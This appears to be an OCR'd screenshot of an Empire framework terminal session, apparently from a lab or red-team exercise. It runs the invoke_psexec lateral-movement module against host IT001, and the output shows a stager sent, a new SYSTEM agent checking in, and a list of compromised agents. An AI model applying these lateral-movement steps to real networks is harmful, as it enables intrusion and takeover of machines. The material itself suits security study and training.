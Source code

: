 ```
                                                     request (default, none, or other).      
  ComputerName True                                  Host[s] to execute the stager on, comma 
                                                     separated.                              
  ServiceName  True        Updater                   The name of the service to create.      
  Command      False                                 Custom command to execute on remote     
                                                     hosts.                                  
  Proxy        False       default                   Proxy to use for request (default, none,
                                                     or other).                              
  UserAgent    False       default                   User-agent string to use for the staging
                                                     request (default, none, or other).      
  Agent        True        V6W3TH8Y                  Agent to run module on.                 
  ResultFile   False                                 Name of the file to write the results to
                                                     on agent machine.                       

(Empire: powershell/lateral_movement/invoke_psexec) > set Listener https
(Empire: powershell/lateral_movement/invoke_psexec) > set ComputerName IT001.shire.com
(Empire: powershell/lateral_movement/invoke_psexec) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked V6W3TH8Y to run TASK_CMD_JOB
[*] Agent V6W3TH8Y tasked with task ID 2
[*] Tasked agent V6W3TH8Y to run module powershell/lateral_movement/invoke_psexec
(Empire: powershell/lateral_movement/invoke_psexec) > Job started: 9GY4PC
[*] Sending POWERSHELL stager (stage 1) to 10.0.10.103
[*] New agent EXBNZYTS checked in
[+] Initial agent EXBNZYTS from 10.0.10.103 now active (Slack)
[*] Sending agent (stage 2) to EXBNZYTS at 10.0.10.103

(Empire: powershell/lateral_movement/invoke_psexec) > 
(Empire: powershell/lateral_movement/invoke_psexec) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 H3DKB8SA ps 172.18.39.106   HR001             SHIRE\nmartha           powershell         5172   5/0.0    2019-05-18 21:07:43  https           
 TKV35P8X ps 172.18.39.106   HR001             *SHIRE\nmartha          powershell         5452   5/0.0    2019-05-18 21:07:42  https           
 EMDBFPSY ps 172.18.39.106   HR001             SHIRE\nmartha           notepad            7924   5/0.0    2019-05-18 21:07:44  https           

 V6W3TH8Y ps 172.18.39.106   HR001             SHIRE\pgustavo          powershell         5204   5/0.0    2019-05-18 21:07:42  https           
 XSZ91N7T ps 172.18.39.105   IT001             *SHIRE\SYSTEM           powershell         4172   5/0.0    2019-05-18 21:07:43  https           
 EXBNZYTS ps 172.18.39.105   IT001             *SHIRE\SYSTEM           powershell         6728   5/0.0    2019-05-18 21:07:42  https           


(Empire: agents) > 
```